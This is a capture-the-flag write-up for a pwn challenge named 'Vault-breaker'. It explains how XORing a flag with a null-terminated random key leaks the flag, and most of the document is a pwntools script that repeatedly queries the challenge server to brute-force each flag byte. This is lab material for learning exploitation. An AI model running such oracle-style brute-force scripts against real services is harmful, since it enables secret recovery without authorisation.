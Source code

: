 # Vault-breaker

```
score: 300
solved: 194
difficulty: easy
tags: pwn, brute-force
```

## Identify vulnerbility
- At the start, a 32-byte key is generated randomly.
- Have 2 options:
    1. Generate a new random key with `length` from user. If catch a `\x00` byte in key, this byte will be replaced.
    2. Xor the key with `flag` and export to user.
### My stup*d bug:
Because no `\x00` byte in `key`, so we can brute-force `flag` by checking the printable character does not appear in output.
### Smart bug:
Because the `key` end with `\x00` (string must end with `\x00`) so if enter length with `i`, value of `key[i+1]=\x00`. By generating `length` from 1->len_of_flag we can leak byte by byte of `flag`. [ref](https://ctftime.org/writeup/33864)
## My stup*d exploit:
```python
from pwn import *
import string
import time

def fillter(passwd,tmp):
    for i in range(len(passwd)):
        x = passwd[i].find(tmp[i])
        if x > -1:
            passwd[i] = passwd[i][:x] + passwd[i][x+1:]

true_pass = b""
def print_pass(arr):
    for i in range(len(arr)):
        size = len(arr[i])
        if size == 1:
            global true_pass
            true_pass[i] = arr[i]
            tmp = b""
            for i in true_pass:
                tmp += i
            print(tmp)

def get_pass():
    # p = process("./vault-breaker")
    p = remote("157.245.46.136",30795)
    p.sendafter(b"> ",b"1\n")
    p.sendafter(b"(0-31): ",b"31\n")
    p.sendafter(b"> ",b"2\n")
    p.recvuntil(b"Vault: ")
    tmp = p.recv()[:-1]
    p.close()
    return tmp

def main():
    tmp = get_pass()
    global passwd
    passwd = [string.printable.encode() for i in range(len(tmp))]
    l = len(tmp)
    global true_pass
    true_pass = [b"*" for i in range(len(tmp))]
    count= 0
    while(True):
        try:
            count = count + 1
            tmp = get_pass()
            if len(tmp) != l:
                continue
            fillter(passwd,tmp)
            print_pass(passwd)
            if count % 20 == 0:
                print("[COUNT] : {}".format(count))
        except:
            pass

if __name__ == "__main__":
    context.log_level = 'error'
    main()

```